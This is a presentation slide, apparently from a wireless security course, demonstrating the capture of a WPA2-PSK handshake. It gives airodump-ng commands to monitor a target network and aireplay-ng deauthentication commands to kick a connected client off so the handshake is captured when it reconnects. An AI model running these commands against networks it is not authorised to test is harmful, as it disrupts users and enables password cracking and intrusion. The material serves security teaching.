

Demonstration | WPA2-PSK (2)

Capture the WPA2 Handshake
Focus on the target network:
airodump-ng --bssid [BSSID] --channel [Channel] --write handshake wlan0mon

Deauthenticate a connected client to force a reconnection
( requires at least one active client )
aireplay-ng --deauth 5 -a [BSSID] -c [Client MAC] wlan0mon

When the client reconnects, a 4-way handshake will be captured. Look for a confirmation message in airodump-ng e.g., “WPA Handshake”